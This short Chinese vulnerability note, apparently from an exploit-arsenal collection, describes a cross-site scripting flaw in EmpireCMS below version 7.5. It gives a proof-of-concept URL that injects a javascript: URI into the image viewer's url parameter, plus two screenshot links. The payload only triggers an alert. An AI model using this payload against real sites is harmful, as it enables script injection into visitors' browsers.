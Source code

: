 ```yaml
---
title: 'EmpireCMS-全版本XSS漏洞.assets'
date: Sat, 05 Sep 2020 13:16:35 +0000
draft: false
tags: ['白阁-武器库']
---
```


### 漏洞范围

EmpireCMS 全版本 <7.5

### 漏洞POC

```
http://*******/e/ViewImg/index.html?url=javascript:alert(/xss/)
```

![](EmpireCMS%20%E5%85%A8%E7%89%88%E6%9C%ACXSS%E6%BC%8F%E6%B4%9E/K52GS8VKPFJ7RHL7J1.png) ![](EmpireCMS%20%E5%85%A8%E7%89%88%E6%9C%ACXSS%E6%BC%8F%E6%B4%9E/PWG@XY7ATDZ@YR.png)